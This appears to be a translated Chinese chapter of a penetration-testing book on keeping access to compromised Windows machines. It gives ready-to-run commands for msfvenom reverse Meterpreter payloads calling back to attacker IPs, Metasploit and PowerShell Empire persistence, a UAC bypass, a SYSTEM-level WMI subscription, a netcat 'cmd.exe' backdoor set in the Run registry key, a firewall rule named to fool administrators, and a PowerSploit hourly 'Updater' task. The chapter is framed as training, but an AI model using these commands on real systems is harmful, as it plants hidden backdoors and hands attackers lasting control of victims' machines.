# 第十五章：*第十七章*：保持访问

我们已经在这些章节中一起走过了很长的路。现在我们来到这里，提出剩下的问题：在你强行进入并证明客户的防御存在漏洞之后——*如何保持我的访问权限？* 这是一个有趣的问题，因为它常常被忽视，尽管它非常重要。当很多人谈论黑客攻击时，他们想到的是如何突破防线的兴奋感。黑客攻击是解决问题的过程，有时我们容易忘记，保持访问权限本身也是一个问题。特别是在渗透测试的背景下，由于我们通常有紧迫的时间表，持久化往往会被视为理所当然。有时，看似有一个竞赛要赶紧获得域管理员或 root 权限，然后就停下来撰写报告。遗憾的是，评估往往就是这样安排的，尤其是在当今这个**高级持续性威胁**（**APT**）的时代。

记住你在评估中的一个广泛目标：从低调到相对显眼地升级，并注意你被捕获的时机。获得域管理员权限时没人注意到，和当当局破门而入时获得域管理员权限，结果是完全不同的。这种心态应延续到持久化阶段。

本章我们将涵盖以下内容：

+   使用 Metasploit 和 PowerShell Empire 实现持久化

+   快速简陋的持久化 netcat 隧道

+   使用 PowerSploit 实现持久化访问

# 技术要求

本章的前提条件如下：

+   Kali Linux

+   一个 Windows 10 或 7 虚拟机

# 使用 Metasploit 和 PowerShell Empire 实现持久化

我们在本书的多个章节中讨论了生成有效载荷。我们用**msfvenom**生成了不同格式和自定义选项的有效载荷，也探讨了如何使用 Shellter 对合法可执行文件进行隐蔽修补，进行高级攻击。现在，我们通过利用 Metasploit 的持久化模块，来完成这个讨论。

## 为 Metasploit 持久化模块创建有效载荷

为了演示，我们将生成一个快速简陋的反向 Meterpreter 可执行文件。然而，请注意，当我们配置持久化模块时，可以使用任何我们想要的可执行文件。

我们将通过以下命令保持简单明了：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.154.133 LPORT=10000 -f exe > persist.exe

当然，请替换为你自己的 IP 地址和本地端口：

图 17.1 – 使用 msfvenom 生成有效载荷

有一点要提醒大家——这不是你通常用来立即达成目标的有效载荷。这不是一个一旦完成任务就丢弃的有效载荷。这个恶意程序将**持久存在**，并让目标有更多时间发现它。细致的研究和规划将是你在这方面的好帮手。

## 配置 Metasploit 持久化模块并发射

旧版本的 **persistence_exe** 有许多标志，你仍然可以那样使用它；然而，在写作时，这种用法已经被弃用，所以我选择将其作为 **post** 模块使用。我现在喜欢这种方式，因为它简化了整个过程。你只需通过 **set REXENAME** 定义可执行文件在目标上调用的名称，使用 **set REXEPATH** 指定可执行文件在你的系统上的位置，并通过 **set SESSION** 设置此攻击将在哪个 Meterpreter 会话中进行。

当你执行 **run** 时，控制台会准确告诉你它正在做什么：



图 17.2 – 在 Metasploit 中运行持久化模块

让我们快速回顾一下这些步骤：

1.  Metasploit 读取你的负载并将其写入目标。

1.  Metasploit 执行负载并返回进程 ID 以供即时使用。

1.  Metasploit 修改目标的注册表，使得每次登录时都会执行。（**HKCU** 表示 **HKEY_CURRENT_USER**。）

1.  为了完成这些任务而创建的资源文件已经被清理。

现在，我们只需坐着等待我们的远程代理进行签到。让我们准备好处理程序。

## 验证你的持久化 Meterpreter 后门

尽管我们当然可以验证注册表更改是否发生，并且负载是否在当前会话中运行，但真正的测试是故意通过重启断开连接，并等待目标主机向我们的监听器发送信息。确保你配置了正确的端口号。当你准备好时，继续重启你的目标：

图 17.3 – 我们的持久化负载发送新会话

不久后，我看到在目标机器上以受影响用户账户登录时，连接会自动出现。

记住，持久化负载和监听攻击者的配置至关重要。例如，如果攻击者使用的是 DHCP 分配的 IP 地址，那么该地址可能会发生变化，导致负载无法再与你联系。考虑使用静态 IP 地址，这样你可以根据需要保持持久性，并选择那些不太可能与其他连接冲突的端口号。

## 不甘示弱——PowerShell Empire 中的持久化

如果你还没有发现，PowerShell Empire 是一个非常强大的框架。由于隐匿性对于持久性更为重要，使用 PowerShell 执行负载使我们的工作变得稍微轻松一些；正如你能想象的，持久化 Empire 代理就像黄金一样宝贵。

如果你需要回顾如何让代理启动并运行，请返回到*第九章*，*PowerShell 基础知识*。在我们的示例中，我们已经设置好了监听器，执行了目标上的一个起始程序，并与**SKD217BV**建立了代理连接：

图 17.4 – PowerShell Empire 中的新代理

尝试用它启动一些模块。你可能会看到一个错误信息，提示你代理需要处于提升的上下文中。奇怪——你已经是管理员了。我们在 Windows 10 系统上可能出现的情况是**用户帐户控制**（**UAC**）已启用。

## 提升我们的 Empire 代理的安全上下文

UAC 是 Windows 用户自 Vista 以来一直在处理的一个可爱的功能——它提示你确认系统中的某些更改。这种逻辑和有效性是另一个话题的讨论内容，但它相较于 Windows 的早期版本，确实是朝着正确的方向迈出了步伐——当管理员登录时，该账户所做的所有事情都有管理员权限。UAC 意味着默认情况下所有内容都以标准用户级别运行，包括我们的恶意脚本。幸运的是，Empire 并不为此烦恼。

准备**bypassuac**模块，使用**usemodule powershell/privesc/bypassuac**。如果你使用**info**查看选项，你会注意到，唯一重要的设置是**Agent**和**Listener**。使用**set Listener**和**set Agent**命令，然后执行**execute**命令：



图 17.5 – 我们的新特权代理汇报情况

哦，看看——你交了一个新朋友！向**TANUBD6P**代理打个招呼吧。请注意，原始代理本身并没有被提升，它仍在运行中。相反，一个具有提升权限的新代理连接回我们。

## 为了隐秘地保持代理的持久性，创建一个 WMI 订阅

简而言之，**Windows 管理工具**（**WMI**）事件订阅方法将创建一个*事件*，该事件具有某些标准，最终会实现我们的有效载荷的持久性和无文件执行。对于这种特定的攻击方法，有不同的方式，但今天我们使用的是登录方法。这将创建一个 WMI 事件过滤器，该过滤器将在系统运行 4 分钟后执行有效载荷。在进入模块模式后，使用**use powershell/persistence/elevated/wmi**，设置接收持久性任务的代理。确保选择提升权限的代理！它是用户名旁边有星号的代理：

图 17.6 – 配置我们的持久代理

请注意，我们正在配置**set Agent**和**set Listener**。现在，让我们验证持久代理是否准备好连接。

## 验证代理的持久性

就是这样。然而，代理没有告诉我们执行情况如何。我们怎么知道它是否有效？重启目标计算机，并返回 Empire 的主菜单。你的监听器仍然在忠实地等待新代理的连接。

请查看此实验演示中的时间戳。我们用于升级的前两个代理现在已经失效，最后一次出现在 12:00。关于 WMI 方法，我们需要记住的一点是，脚本在机器启动后的大约 5 分钟内不会运行：



图 17.7 – 持久（且提升权限的！）代理报告

哇！我们的新代理正在以**SYSTEM**身份运行。我们现在完全控制了计算机，并且它将在重启后保持这种关系。永久的 WMI 订阅以**SYSTEM**身份运行，这不仅使其成为一个有价值的持久化练习，而且也是提升权限的可靠方式。

# 黑客隧道 – 即时生成的 netcat 后门

我知道你在想什么。你在想 netcat 是否真的是一个好的选择。它不是一个加密隧道，也没有任何认证机制，而且**nc.exe**常常被杀毒软件标记。不过，目前我们还是选择了 netcat，因为它是一个不错的演示工具，但实际上也有实际用途——我不确定是否有比这种方法更快的方式来在 Windows 目标系统中创建一个持久的后门。不过，你可以使用任何你喜欢的监听器来利用这种方法。让我们更仔细地看看我们手工制作的有效负载。

## 使用 Meterpreter 上传并配置持久化 netcat

我们已经看过使用**SimpleHTTPServer**在局域网上轻松传输文件的方法。这次，我们假设已经建立了 Meterpreter 的立足点，并且我们正在设置一个更快的*回调号码*。

使用**upload**命令将你的后门上传到目标。接下来的步骤是使其在每次启动时都能生效——将可执行文件添加到注册表中。请注意，双斜杠用于转义单个斜杠通常代表的换行符：

> 上传 /usr/share/windows-binaries/nc.exe C:\\Windows\\system32
> 
> reg setval -k HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run -v nc -d 'C:\Windows\system32\nc.exe -Ldp 9009 -e cmd.exe'

Meterpreter 应该报告密钥已成功设置：

图 17.8 – Meterpreter 上传和注册表设置用于持久化 netcat

请注意，启动时实际执行的命令是**nc.exe -Ldp 9009 -e cmd.exe**。不要忘记端口号。不过，仍然有一步需要完成。

## 远程调整 Windows 防火墙以允许入站的 netcat 连接

现在，我知道你心中的黑客在想，*我们所做的不过是确保后门在启动时加载而已，可能我们回去时会撞上防火墙*。确实，学生成了大师。我们可以使用 **netsh** 一行命令来处理这个问题。进入目标的 shell，发送以下命令：

> netsh advfirewall firewall add rule name="Software Updater" dir=in action=allow protocol=TCP localport=9009

让我们看看这个过程是怎样的：

图 17.9 – 从目标的 shell 修改防火墙

注意，我给这个规则起了个名字。这需要一点社会工程学技巧；你希望管理员在查看规则时，忽略诸如 *software* 和 *updater* 这样的词。当然，你也可以将规则命名为 *You got haxxed bro*。这由你决定。

**netsh** 命令会通过简单的 **Ok** 确认你添加的规则没问题。现在，像之前一样，我们来确认 netcat 后门是否会持久化。

## 验证持久化是否建立

这其实是最容易验证的事情。尝试在重启目标后联系你的后门：

图 17.10 – 重启后从我们的后门获取 shell

再次尝试使用不同的监听器。也许你可以通过 SSH 连接？或许你可以通过防火墙规则更精细地设置，只允许你的 IP 地址。希望你现在已经看到了其中的潜力。

讨论 Windows 目标上的持久化时，没有涉及 PowerSploit 就不完整。让我们来看看它。

# 使用 PowerSploit 维持访问

PowerSploit 框架是后期利用阶段的一个真正的宝藏。该框架包含了一系列 PowerShell 脚本，它们执行各种神奇的操作。PowerSploit 的完整探索留给你，亲爱的读者。现在，我们正在查看持久化模块。

首先，我们来了解一下模块的概念。模块本质上是 PowerShell 脚本的集合，这些脚本共同组成一个统一的主题或任务类型。你可以将工具聚集在一个文件夹中，然后将其放入模块路径中，按需导入这个组合。一个写得很好的模块能够与 PowerShell 的所有特点无缝集成。特别是，**Get-Help** 在这些脚本中也能正常工作。是的，你可以运行 **Get-Help** 来了解如何使用这些恶意脚本。我们来试试。

## 在 PowerShell 中安装持久化模块

在 Kali 的早期版本中，我们需要手动拉取最新的 PowerSploit。今天，它已经内置并且可以通过 **apt** 更新，所以你可以立即使用 **powersploit** 并启动 **SimpleHTTPServer**，这样我们就可以将工具传送到我们的 Windows 10 机器，在那里我们将准备持久化脚本：



图 17.11 – 在 PowerSploit 文件夹内设置 HTTP 服务器

在 Windows 10 攻击机上运行浏览器，下载整个**Persistence**文件夹。如果你是单独下载文件，只需确保它们最终被放入名为**Persistence**的本地文件夹中：



图 17.12 – 从 Kali 攻击者处获取 PowerSploit 模块

现在，我们需要在 PowerShell 中安装持久化模块。我们所要做的就是将新获取的**Persistence**文件夹移动到我们系统上的 PowerShell 模块路径中。启动 PowerShell，并用**$Env:PSModulePath**显示**PSModulePath**环境变量：



图 17.13 – 确认模块路径

只需像平常一样剪切并粘贴**Persistence**文件夹到你的模块路径中。你应该能在这个位置看到其他已安装的模块。

放慢节奏。不要急着打开香槟。如果你使用的是刚安装好的 Windows 虚拟机作为攻击者，可能会为 PowerShell 设置了受限的执行策略。我们需要用**Set-ExecutionPolicy -ExecutionPolicy Unrestricted**来打开它。然后，我们可以通过**Import-Module Persistence**导入我们新的高级模块。你将会被提示授权成为一个恶意黑客。默认选项是**不运行**，所以请确保在命令提示符下输入**R**。完成所有操作后，你可以像使用任何其他模块一样，启动**Get-Help** cmdlet：

图 17.14 – 持久化模块帮助屏幕

看到这儿有三个脚本吗？它们一起协作构建一个单一的有效载荷。让我们开始构建我们自己的。

## 配置和执行 Meterpreter 持久化

现在，我们已经准备好构建要与世界分享的礼物。首先，我们需要理解这三个脚本是如何工作的。它们不是可以根据需要挑选的独立工具；它们是*一个*工具。要创建任何持久化脚本，你需要按特定的顺序运行这三个脚本：

+   **New-UserPersistenceOption**和**New-ElevatedPersistenceOption**必须首先执行。顺序无关紧要，只要它们在最后一个脚本**Add-Persistence**之前执行。这两个脚本用于定义将进入最终产品的持久化细节。为什么是两个？因为你要告诉有效载荷如何处理作为标准用户或特权用户的情况。也许你想根据管理员是否运行它来配置这些设置。现在，我们就先将设置设为相同。

+   **Add-Persistence**需要在前两个脚本中定义的配置。这些作为环境变量传递给**Add-Persistence**，由你选择。

明白了吗？让我们深入了解。首先，我们需要一个有效载荷。幸运的是，任何旧的 PowerShell 脚本都可以很好地工作。也许你有一个喜欢的脚本，来自我们之前回顾的 PowerShell。也许你自己写过一个。现在，我们将使用超级有用的**msfvenom**生成一个示例。它的格式选项之一就是 PowerShell！

# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.154.131 LPORT=8008 -f psh > attack.ps1

我最后得到了一个 2.5 KB 的有效载荷——还不错：



图 17.15 – 准备我们的有效载荷并交付它

将那个脚本传输到你的*脚本构建器*系统上（我再次使用了**SimpleHTTPServer**；我真是太喜欢它了）。不要把它带到目标上；我们还没有我们的持久性脚本。记住，如果你只有一台 Windows 主机，那么你的脚本构建器和目标是同一台系统。

现在，我们运行这三个脚本——两个选项脚本，其输出存储为环境变量，然后是持久性脚本，它将选项传入并定义有效载荷脚本：

> $userop = New-UserPersistenceOption -ScheduledTask -Hourly
> 
> $suop = New-ElevatedPersistenceOption -ScheduledTask -Hourly
> 
> Add-Persistence -FilePath .\attack.ps1 -ElevatedPersistenceOption $suop -UserPersistenceOption $userop

查看持久性模块输出的脚本文件大小：



图 17.16 – 有效载荷已打包并准备就绪

运行**ls**或**dir**来验证它是否成功。你应该看到两个新的脚本——**Persistence.ps1**和**RemovePersistence.ps1**。后者是为了在你需要时清理你的烂摊子。这在渗透测试中非常重要，所以不要丢了那个文件！把**Persistence.ps1**传到你的目标上。

和往常一样，下一步是等待我们的忠实包开始报告。让我们来看一下如何执行和验证它。

## 潜伏等待 – 验证持久性

在目标上执行**Persistence.ps1**（如何完成这一步仅受你想象力的限制，小小的草蜢）。就这样。没有爆炸，没有五彩纸屑。那么，让我们看看幕后到底发生了什么。打开目标系统上的**任务计划程序**：



图 17.17 – 目标上的任务计划程序

在此系统上计划运行的任务中，请注意一个名为**Updater**的小家伙。它设计为每小时触发一次 PowerShell 脚本。这里说下一个运行时间是 2:30。好吧，现在还不到这个时间，所以我将重启目标，去喝杯咖啡，放松一下，同时让 Meterpreter 监听它的“子民”的歌声。与此同时，让我们看看持久性脚本做了什么。

在我们在 PowerShell ISE 中打开**Persistence.ps1**之前，让我先在启用了**自动换行**的**记事本**中展示该脚本。我已经标出正在持久化的实际有效载荷：



图 17.18 – 为任务调度打包的有效载荷

这是一个压缩的 Base64 流。现在，让我们在 ISE 中查看其余内容：



图 17.19 – 为学习和调整打开的有效载荷

这里的内容无法完全展示，因此我鼓励你仔细研究并理解其中的操作。例如，查看**$Payload**声明——**schtasks /Create /SC HOURLY /TN Updater**（依此类推）。这将帮助你了解脚本的工作原理，同时也为你提供了根据需要进行调整的机会。

# 摘要

在本章中，我们探索了在成功建立网络访问后，如何保持对目标系统的访问。这样我们就有更多时间收集信息，并可能加深入侵。我们了解到现代威胁是持久性的，因此作为渗透测试人员，将这些技巧纳入我们的技能库，能够增加评估对客户的价值。我们在解释如何使用更复杂的有效载荷与这些持久化工具时，生成了**msfvenom**有效载荷。我们还探讨了 Metasploit 和 PowerShell Empire 的持久化能力，了解了通过 netcat 和 Meterpreter 快速轻松地构建持久化后门。最后，我们展示了 PowerSploit 框架的持久化模块，通过将脚本嵌入代码中，使有效载荷在目标上保持持久化。

如果你还清醒的话，恭喜你——你已经完成了我们的旅程！但正如我之前所说，我们只是刚刚涉足了这些清新的水域。如果你想深入探索，可以考虑注册**Hack The Box**，这是互联网上顶级的黑客训练平台。你可以从初学者开始，逐步提升到高级水平，参与学院课程获取在线培训，并返回战场实践新技能。整个过程是游戏化的，因此既容易跟踪进度，又充满乐趣。

这非常适合练习、娱乐和培训，但如果你在寻找企业级的培训，并且希望通过真正具有挑战性的认证过程来增强简历，那还得是 Kali 的实际创造者。前往 Offensive Security 获取入门级和高级培训课程，还可以通过 Proving Grounds 试验新技能。

那些是两个很棒的资源，但最终的结论是，黑客的真正精神和推动力不是你能买到的东西——它是一种态度、一种生活方式，以及解决问题的方式，无论是在电脑上还是生活中的其他方面。促使你拿起这本书的动力就是你继续走这条路所需要的东西，所以培养它，并为一个真正充实的职业和爱好做好准备。

# 问题

回答以下问题以测试你对本章内容的掌握情况：

1.  **persistence_exe** 模块通过在 _________ 中添加一个值来工作。

1.  **msfvenom** 标志 **-f psh** 是什么意思？

1.  PowerSploit 持久化模块脚本必须按以下顺序运行：1）**New-UserPersistenceOption**，2）**New-ElevatedPersistenceOption**，3）**Add-Persistence** – 对还是错？

1.  一个黑客在一个被攻陷的 Windows Server 2008 服务器上上传并持久化了 netcat。然后，他们运行此命令以允许他们的连接进入后门 – **netsh advfirewall firewall add rule name="WindowsUpdate" dir=out action=allow protocol=TCP localport=9009**。他们无法连接到后门。为什么？

1.  永久 WMI 订阅以 _____ 方式运行。

1.  在 Metasploit 中，**.rc** 文件是一个 _________。

1.  使用 **reg setval** 时，**HKEY_LOCAL_MACHINE** 缩写为 ________。

# 进一步阅读

关于本章涉及的主题，查看以下资源获取更多信息：

+   一篇关于使用 WMI 订阅启动脚本的 TechNet 文章：[`blogs.technet.microsoft.com/heyscriptingguy/2012/07/20/use-powershell-to-create-a-permanent-wmi-event-to-launch-a-vbscript/`](https://blogs.technet.microsoft.com/heyscriptingguy/2012/07/20/use-powershell-to-create-a-permanent-wmi-event-to-launch-a-vbscript/)

+   PowerSploit GitHub 上关于脚本的详细信息：[`github.com/PowerShellMafia/PowerSploit`](https://github.com/PowerShellMafia/PowerSploit)
